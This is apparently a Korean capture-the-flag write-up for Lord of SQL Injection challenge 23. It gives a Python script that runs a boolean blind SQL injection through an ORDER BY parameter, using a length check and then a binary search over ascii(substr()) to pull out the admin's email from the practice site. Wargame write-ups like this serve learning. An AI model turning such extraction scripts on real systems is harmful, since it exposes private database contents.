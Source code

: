 ```yaml
---
title: LOS - 23번 hell_fire
category: Lord of SQL Injection
---
```


# [23] hell_fire

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F5eUFD%2FbtrnVrPFyVL%2FKNGuBlPtjreZyWkhE4l4uk%2Fimg.png">

## 풀이

**LoS 23번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"
    cookie = "sdrjk57hqa404dvtb3akcpfvk1"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 23을 시작합니다")

for num in range(0,100):
    param=f"?order=if(id='admin' and length(email)={num}, 'id', 'score')"
    if("200</td></tr><tr><td>rubiya" in send(param)):
        print(f"👏 email의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?order=if(id='admin' and ascii(substr(email,{len},1))>={middle}, 'id', 'score') %23"
        if("200</td></tr><tr><td>rubiya" in send(param)):
            param=f"?order=if(id='admin' and ascii(substr(email,{len},1))={middle}, 'id', 'score') %23"
            if("200</td></tr><tr><td>rubiya" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 email의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FODAqj%2FbtrnX0KUmP3%2FEyAtalWB84Fusk5ABdVFM0%2Fimg.png">

admin 계정의 email은 `admin_secure_email@emai1.com` 임을 확인할 수 있다.

* @ 뒷부분을 보면... emai**1** 이다. 깨알같은 함정?

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FboRpmQ%2Fbtrn14rH98w%2FwhuKJ6XRowVM23QGkUPvIK%2Fimg.png">
